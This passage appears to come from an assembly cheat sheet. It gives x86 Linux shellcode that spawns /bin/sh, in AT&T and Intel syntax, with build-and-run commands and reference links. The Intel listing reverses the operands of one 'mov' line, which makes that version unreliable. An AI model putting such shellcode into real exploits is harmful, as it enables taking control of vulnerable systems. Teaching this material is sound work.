 - [GCC and Make - A Tutorial on how to compile, link and build C/C++ applications](https://www3.ntu.edu.sg/home/ehchua/programming/cpp/gcc_make.html)

#### x86 AT&T

shellcode.s

```asm
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
mov    %eax,%ecx
mov    %eax,%edx
mov    $0xb,%al
int    $0x80
xor    %eax,%eax
inc    %eax
int    $0x80
```

```shell
gcc -m32 -c shellcode.s
ld -m elf_i386 -o shellcode shellcode.o
./shellcode
```

#### x86 intel

shellcode.s

```asm
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
mov    ecx, eax
mov    eax, edx
mov    al, 0x0b
int    0x80
xor    eax, eax
inc    eax
int    0x80
```

```shell
nasm -f elf shellcode.s
ld -m elf_i386 -o shellcode shellcode.o
./shellcode
```

#### References

- [how to assemble assembly with NASM assembler to 32-bit or 64-bit ELF binary with or without libc](https://gist.github.com/yellowbyte/d91da3c3b0bc3ee6d1d1ac5327b1b4b2)
- [nasm-assembly-examples/gcc-cheat-sheet.md](https://github.com/funnydman/nasm-assembly-examples/blob/master/gcc-cheat-sheet.md)
- [nasm-assembly-examples/nasm-cheat-sheet.md](https://github.com/funnydman/nasm-assembly-examples/blob/master/nasm-cheat-sheet.md)
- [NASM-Assembly-Cheat-Sheet/Cheat-Sheet.md](https://github.com/Siedler/NASM-Assembly-Cheat-Sheet/blob/master/Cheat-Sheet.md)
- [x64 NASM Cheat Sheet](https://gist.github.com/justinian/385c70347db8aca7ba93e87db90fc9a6)
- [Art of Assembly Language Programming and HLA by Randall Hyde](https://www.plantation-productions.com/Webster/)
